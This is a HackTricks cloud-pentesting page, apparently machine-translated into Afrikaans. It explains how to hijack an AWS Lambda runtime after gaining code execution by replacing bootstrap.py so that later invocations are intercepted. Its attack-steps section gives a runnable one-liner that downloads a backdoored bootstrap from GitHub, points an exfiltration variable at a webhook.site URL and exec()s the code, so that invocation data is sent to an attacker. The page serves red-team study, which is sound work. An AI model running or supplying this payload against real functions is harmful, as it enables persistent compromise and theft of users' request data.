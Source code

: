 # AWS - Steal Lambda Requests

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **stuur** **aanroepe** na die **init** proses.
2. Die init proses luister op poort **9001** wat 'n paar interessante eindpunte blootstel:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroep gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – keer die handler respons vir die aanroep terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – keer 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepe van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Laastens, **bootstrap.py** stuur die **respons** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Stealing Lambda Requests

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses wat die kwesbare aanvraag hanteer, te laat uitvoer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die aanroepe te hanteer terwyl die **legitieme** bootstrap **gevang** is wat die kwaadwillige een uitvoer, sodat dit nie vir aanroepe aan die init proses sal vra nie.

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die legitieme **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

* **Stuur 'n vals resultaat van die huidige aanroep na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepe.
* 'n Aanroep moet gestuur word na **`/${invoke-id}/response`**
* Die invoke-id kan verkry word van die stapel van die legitieme **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) of net weer aan te vra na **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende aanroepe sal hanteer
* Vir stealthiness doeleindes is dit moontlik om die lambda aanroep parameters na 'n aanvaller beheerde C2 te stuur en dan die aanroepe soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit van die huidige lambda aanroep af te laat loop.

### Attack Steps

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur te loop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
